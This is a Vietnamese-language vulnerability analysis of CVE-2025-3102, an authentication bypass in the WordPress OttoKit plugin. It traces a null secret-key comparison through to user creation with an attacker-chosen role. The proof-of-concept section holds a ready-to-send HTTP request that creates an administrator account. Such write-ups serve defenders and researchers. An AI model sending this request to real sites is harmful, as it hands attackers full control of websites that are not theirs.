


<!--more-->

## CVE & Basic Info

* **CVE ID**: [CVE-2025-3102](https://www.cve.org/CVERecord?id=CVE-2025-3102)
* **Vulnerability Type**: Bypass Vulnerability
* **Affected Versions**: <= 1.0.78
* **Patched Versions**: 1.0.79
* **CVSS severity**: High (8.1)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress OttoKit Plugin](https://wordpress.org/plugins/suretriggers/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **OttoKit**:  
    * `1.0.78` – **vulnerable**  
    * `1.0.79` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ diff nào.

## Analysis 
Plugin đã đăng ký API như sau:

```php {title="RoutesController.php v1.0.78" hl_lines=[] data-open=true}
$rest_controller_obj         = RestController::get_instance();
register_rest_route(
    SURE_TRIGGERS_REST_NAMESPACE, // sure-triggers/v1
    'automation/action',
    [
        'methods'             => WP_REST_Server::CREATABLE, // POST, PUT, PATCH
        'callback'            => [ $rest_controller_obj, 'run_action' ],
        'permission_callback' => [ $rest_controller_obj, 'autheticate_user' ],
    ]
);
```

Với cấu hình trên, API endpoint đầy đủ sẽ có dạng:

```
/wp-json/sure-triggers/v1/automation/action
```

Khi có request đến endpoint trên với method hợp lệ thì callback `run_action` nhưng trước hết cần vượt qua hàm kiểm tra quyền `autheticate_user`

```php {title="RestController.php v1.0.78" hl_lines=[] data-open=true}
public function autheticate_user( $request ) {
    $secret_key       = $request->get_header( 'st_authorization' );
    list($secret_key) = sscanf( $secret_key, 'Bearer %s' );

    if ( $this->secret_key !== $secret_key ) {
        return false;
    }

    return true;
}
```

Hàm `autheticate_user` dùng để xác thực người dùng dựa trên một secret key được gửi lên trong HTTP header.

Client sẽ gửi header dạng:

```
st_authorization: Bearer ABC123SECRET
```

Server sẽ lấy `ABC123SECRET` ra để so sánh với secret key đã lưu trong hệ thống.

Khi plugin được **install** và **active** nhưng chưa cấu hình API key


Biến `$this->secret_key` sẽ có giá trị `null`. Nếu attacker gửi request không có header hợp lệ, giá trị `$secret_key` lấy từ request cũng sẽ là `null`. Khi so sánh:

```php
// st_authorization: Bearer 

$this->secret_key !== $secret_key   // null !== null → false
```

Điều kiện kiểm tra thất bại và hàm trả về `true`, dẫn đến bypass xác thực.

Khi đó `run_action` được gọi để xử lý request

```php {title="RestController.php v1.0.78" hl_lines=[57,58,59,60] data-open=true}
public function run_action( $request ) {
    $request->get_param( 'wp_user_id' );

    $user_id          = $request->get_param( 'wp_user_id' );
    $automation_id    = $request->get_param( 'automation_id' );
    $integration      = $request->get_param( 'integration' );
    $action_type      = $request->get_param( 'type_event' );
    $selected_options = $request->get_param( 'selected_options' );
    $context          = $request->get_param( 'context' );
    $fields           = $request->get_param( 'fields' );

    if ( empty( $user_id ) ) {
        $user_id = isset( $context['pluggable_data']['wp_user_id'] ) ? sanitize_text_field( $context['pluggable_data']['wp_user_id'] ) : '';
    }

    if ( empty( $integration ) || empty( $action_type ) ) {
        return self::error_message( 'Integration or action type is missing' );
    }

    if ( isset( $selected_options['wp_user_email'] ) && ! ( 'EDD' === $integration && 'find_user_purchased_download' === $action_type ) ) {
        $is_valid = WordPress::validate_email( $selected_options['wp_user_email'] );

        if ( ! $is_valid->valid ) {
            if ( $is_valid->multiple ) {
                return self::error_message( 'One or more email address is not valid.' );
            } else {
                return self::error_message( 'Email address is not valid.' );
            }
        }

        if ( str_contains( $selected_options['wp_user_email'], ',' ) ) {
            $email_list = explode( ',', $selected_options['wp_user_email'] );

            foreach ( $email_list as $single_email ) {
                if ( ! email_exists( trim( $single_email ) ) ) {
                    return self::error_message( 'User with email ' . $single_email . ' does not exists.' );
                }
            }
        } else {
            if ( ! email_exists( $selected_options['wp_user_email'] ) ) {
                return self::error_message( 'User with email ' . $selected_options['wp_user_email'] . ' does not exists.' );
            }
        }
    }
    $registered_actions = EventController::get_instance()->actions;
    $action_event       = $registered_actions[ $integration ][ $action_type ];

    $fun_params = [
        $user_id,
        $automation_id,
        $fields,
        $selected_options,
        $context,
    ];

    try {
        $result = call_user_func_array(
            $action_event['function'],
            $fun_params
        );
        return self::success_message( $result );
    } catch ( Exception $e ) {
        return self::error_message( $e->getMessage(), 400 );
    }
}
```

Hàm `run_action()` bắt đầu bằng việc trích xuất các tham số cần thiết thông qua `$request->get_param()`.

Nếu `wp_user_id` không được truyền trực tiếp, hệ thống fallback sang giá trị trong `context['pluggable_data']['wp_user_id']`. Điều này giúp đảm bảo luôn có user context để xử lý hành động.

Tiếp theo, hệ thống kiểm tra dữ liệu bắt buộc. Nếu `integration` hoặc `type_event` bị thiếu, hàm sẽ dừng ngay và trả về lỗi. Sau đó, nếu tồn tại `selected_options['wp_user_email']`, hệ thống tiến hành validate email: kiểm tra định dạng hợp lệ, tách danh sách email nếu có nhiều giá trị, và xác minh email có tồn tại trong WordPress hay không. 

> [!TIP]
> Ta có thể không truyền `wp_user_email` để bypass qua kiểm tra này

Sau khi vượt qua toàn bộ bước kiểm tra dữ liệu, hệ thống lấy danh sách action đã đăng ký thông qua Singleton:

```php
EventController::get_instance()->actions
```

Danh sách này là một mảng ánh xạ giữa `integration` và `action_type`, trong đó mỗi action chứa một callable function tương ứng.

Dựa trên giá trị `integration` và `type_event` từ request, hệ thống xác định action cần thực thi:

```php
$action_event = $registered_actions[$integration][$action_type];
```

Callable function được trích xuất từ:

```php
$action_event['function']
```

Tiếp theo, các tham số truyền vào function được đóng gói trong mảng:

```php
$user_id,
$automation_id,
$fields,
$selected_options,
$context
```

Cuối cùng, hàm đích được gọi động bằng:

```php
call_user_func_array($action_event['function'], $fun_params);
```

Cơ chế này cho phép hệ thống thực thi linh hoạt nhiều action khác nhau chỉ dựa trên dữ liệu truyền từ request, thay vì hard-code từng hàm cụ thể. Kết quả trả về từ function sẽ được đóng gói thành response thành công, hoặc trả lỗi nếu quá trình thực thi phát sinh exception.

Điều thực sự điên rồ khi `integration` là `WordPress` và `create_user_if_not_exists` thì hành động tạo user mới nếu user chưa tồn tại sẽ được triển khai.



Khi `call_user_func_array` được gọi, `_action_listener` sẽ được kích hoạt:

```php {title="create-user-if-not-exists.php v1.0.78" hl_lines=[33] data-open=true}
public function _action_listener( $user_id, $automation_id, $fields, $selected_options ) {
    $email     = sanitize_email( $selected_options['user_email'] );
    $user_name = sanitize_text_field( $selected_options['user_name'] );

    /**
     * User Data
     */
    
    $user_pass = empty( $selected_options['password'] ) ? wp_generate_password() : $selected_options['password'];
    
    $userdata               = [
        'user_login' => $selected_options['user_name'],
        'user_email' => $email,
        'first_name' => $selected_options['first_name'],
        'last_name'  => $selected_options['last_name'],
        'user_pass'  => $user_pass,
        'role'       => $selected_options['role'],
    ];
    $force_update_user_role = $selected_options['force_update_user_role'] ? 'yes' : 'no';

    $add_user_roles = $selected_options['add_user_roles'] ? 'yes' : 'no';
    $show_password  = $selected_options['show_password'];

    $user = get_user_by( 'email', $email );
    if ( ! $user ) {
        $user = get_user_by( 'login', $user_name );
    }
    
    if ( $user ) {
        ...
        wp_update_user( wp_slash( $userdata ) );
    } else {
        $user_id = wp_insert_user( wp_slash( $userdata ) );
    }
    ...
}
```

Hàm này lấy các tham số đầu vào từ request, thực hiện chuẩn hóa dữ liệu (email, username, mật khẩu), sau đó kiểm tra xem người dùng đã tồn tại trong hệ thống hay chưa thông qua **email** và **username**. Nếu người dùng chưa tồn tại, hàm sẽ tạo mới tài khoản bằng `wp_insert_user`; ngược lại, nếu đã tồn tại, hệ thống sẽ cập nhật thông tin người dùng tương ứng.

Theo luồng phân tích trên, toàn bộ các tham số đầu vào đều có thể bị attacker kiểm soát thông qua request. Điều này cho phép kẻ tấn công chủ động truyền dữ liệu tùy ý, bao gồm cả trường **`role`**. Khi hàm `_action_listener()` được thực thi, hệ thống sẽ tạo mới người dùng với role do attacker chỉ định, từ đó có thể tạo tài khoản với quyền **administrator**, dẫn đến chiếm quyền kiểm soát toàn bộ website.

Bản vá `v1.0.78` đã bổ sung kiểm tra chặt chẽ giá trị của `secret_key` trước khi so sánh


Bao gồm xác thực kiểu dữ liệu, kiểm tra rỗng đối với cả header nhận từ request và giá trị `secret_key` được cấu hình trong hệ thống. Ngoài ra, hàm so sánh được thay thế bằng `hash_equals()` để tránh rò rỉ thông tin qua timing attack. Nhờ đó, trường hợp plugin chưa được cấu hình API key hoặc request không truyền header hợp lệ sẽ bị từ chối ngay, ngăn chặn khả năng bypass xác thực.

## Flow


## Proof of Concept (PoC)
1. Gửi request:

```http
POST /wp-json/sure-triggers/v1/automation/action HTTP/1.1
Host: localhost
st_authorization: Bearer 

wp_user_id=1&integration=WordPress&type_event=create_user_if_not_exists&selected_options[user_name]=hacker&selected_options[password]=hacker&selected_options[role]=administrator&selected_options[user_email]=hacker@gmail.com&selected_options[first_name]=hacker
```


2. Login với user vừa tạo

## Conclusion
CVE-2025-3102 là một lỗ hổng **authentication bypass** trong plugin WordPress OttoKit (≤ 1.0.78), bắt nguồn từ việc thiếu kiểm tra giá trị rỗng của `secret_key` trong hàm `autheticate_user()`. Khi plugin được cài đặt nhưng chưa cấu hình API key, request với header rỗng có thể vượt qua bước xác thực.

Sau khi bypass thành công, attacker có thể truy cập trực tiếp endpoint `run_action()` và kiểm soát toàn bộ tham số đầu vào. Bằng cách kích hoạt action `create_user_if_not_exists`, kẻ tấn công có thể tạo tài khoản mới với role tùy ý, bao gồm cả quyền administrator, dẫn đến chiếm quyền kiểm soát website.

Phiên bản 1.0.79 đã khắc phục vấn đề bằng cách kiểm tra chặt chẽ dữ liệu đầu vào và sử dụng `hash_equals()` để so sánh an toàn, ngăn chặn khả năng bypass xác thực.

## Key Takeaways
* Logic xác thực cần luôn kiểm tra đầy đủ giá trị rỗng và kiểu dữ liệu.
* Cơ chế xác thực phải mặc định từ chối khi trạng thái không hợp lệ hoặc chưa cấu hình.
* Việc thực thi hàm động dựa trên dữ liệu từ request làm tăng đáng kể bề mặt tấn công.
* Các tham số nhạy cảm như role không nên được phép kiểm soát trực tiếp từ phía client.
* Cần kiểm thử cả các kịch bản sai cấu hình, không chỉ trường hợp hoạt động bình thường.
* Luôn cập nhật plugin lên phiên bản đã được vá để giảm thiểu rủi ro bảo mật.

## References
[Bypass Vulnerability](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress OttoKit Plugin <= 1.0.78 is vulnerable to a high priority Bypass Vulnerability](https://patchstack.com/database/wordpress/plugin/suretriggers/vulnerability/wordpress-suretriggers-plugin-1-0-78-authorization-bypass-vulnerability) 